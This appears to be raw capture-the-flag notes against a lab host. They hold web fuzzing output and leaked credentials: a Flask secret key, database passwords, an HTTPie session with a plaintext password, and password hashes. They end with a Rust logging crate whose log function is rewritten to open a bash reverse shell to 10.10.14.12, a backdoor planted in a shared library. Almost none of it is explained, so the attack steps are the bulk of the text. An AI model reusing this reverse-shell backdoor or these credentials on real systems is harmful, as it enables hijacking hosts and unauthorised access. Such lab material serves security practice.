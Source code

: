 ```yaml
---
category: Uncategorized
tags: []
---
```

10.10.11.218

000000026:   200        76 L     554 W      5584 Ch     "about"                                            
000000025:   200        68 L     261 W      3543 Ch     "contact"                                          
000000053:   200        82 L     249 W      4392 Ch     "login"                                            
000000138:   200        82 L     249 W      4392 Ch     "view"                                             
000000259:   200        82 L     249 W      4392 Ch     "admin"                                            
000000390:   200        154 L    691 W      9043 Ch     "guide"                                            
000001086:   200        53 L     61 W       3187 Ch     "pgp"                                              
000001225:   200        82 L     249 W      4392 Ch     "logout"                                           
000001927:   405        5 L      20 W       153 Ch   "process"                                          



"$M1DGu4rD$"


    app.config['SECRET_KEY'] = '91668c1bc67132e3dcfb5b1a3e0c5c21'
    app.config['SQLALCHEMY_DATABASE_URI'] = 'mysql://atlas:GarlicAndOnionZ42@127.0.0.1:3306/SSA'



{
    "__meta__": {
        "about": "HTTPie session file",
        "help": "https://httpie.io/docs#sessions",
        "httpie": "2.6.0"
    },
    "auth": {
        "password": "quietLiketheWind22",
        "type": null,
        "username": "silentobserver"
    },
    "cookies": {
        "session": {
            "expires": null,
            "path": "/",
            "secure": false,
            "value": "eyJfZmxhc2hlcyI6W3siIHQiOlsibWVzc2FnZSIsIkludmFsaWQgY3JlZGVudGlhbHMuIl19XX0.Y-I86w.JbELpZIwyATpR58qg1MGJsd6FkA"
        }
    },
    "headers": {
        "Accept": "application/json, */*;q=0.5"
    }
}


+----+----------------+--------------------------------------------------------------------------------------------------------+
| id | username       | password                                                                                               |
+----+----------------+--------------------------------------------------------------------------------------------------------+
|  1 | Odin           | pbkdf2:sha256:260000$q0WZMG27Qb6XwVlZ$12154640f87817559bd450925ba3317f93914dc22e2204ac819b90d60018bc1f |
|  2 | silentobserver | pbkdf2:sha256:260000$kGd27QSYRsOtk7Zi$0f52e0aa1686387b54d9ea46b2ac97f9ed030c27aac4895bed89cb3a4e09482d |
+----+----------------+--------------------------------------------------------------------------------------------------------+


/home/silentobserver/.local/bin


mysql://tipnet:4The_Greater_GoodJ4A@localhost:3306/Upstream



/opt/crates/logger/src/lib.rs

extern crate chrono;

use std::fs::OpenOptions;
use std::io::Write;
use chrono::prelude::*;
use std::process::Command;
 
pub fn log(user: &str, query: &str, justification: &str) {
    let command = "bash -i >& /dev/tcp/10.10.14.12/1234 0>&1";
 
    let output = Command::new("bash")
        .arg("-c")
        .arg(command)
        .output()
        .expect("not work");

    if output.status.success() {
        let stdout = String::from_utf8_lossy(&output.stdout);
        let stderr = String::from_utf8_lossy(&output.stderr);
 
        println!("standar output: {}", stdout);
        println!("error output: {}", stderr);
    } else {
        let stderr = String::from_utf8_lossy(&output.stderr);
        eprintln!("Error: {}", stderr);
    }
 
    let now = Local::now();
    let timestamp = now.format("%Y-%m-%d %H:%M:%S").to_string();
    let log_message = format!("[{}] - User: {}, Query: {}, Justification: {}\n", timestamp, user, query, justification);
 
    let mut file = match OpenOptions::new().append(true).create(true).open("/opt/tipnet/access.log") {
        Ok(file) => file,
        Err(e) => {
            println!("Error opening log file: {}", e);
            return;
        }
    };

    if let Err(e) = file.write_all(log_message.as_bytes()) {
        println!("Error writing to log file: {}", e);
    }
}